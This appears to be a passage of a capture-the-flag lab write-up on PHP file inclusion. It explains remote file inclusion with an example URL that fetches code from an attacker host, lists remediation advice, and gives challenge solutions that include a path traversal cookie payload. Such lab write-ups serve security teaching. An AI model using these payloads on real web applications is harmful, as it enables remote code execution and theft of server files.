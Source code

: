 First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

### REMEDIATION 

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

- Keep system and services, including web application frameworks, updated with the latest version.
- Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
- A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
- Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
- Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
- Never trust user input, and make sure to implement proper input validation against file inclusion.
- Implement whitelisting for file names and locations as well as blacklisting.

### CHALLENGE 

**Flag1**  
GET Method is not working I created a script that uses post method with a parameter 
![flag](./media/5-challenge1.png)


**Flag2**  
Changed the cookie value to `THM=../../../../etc/flag2`
then refreshed 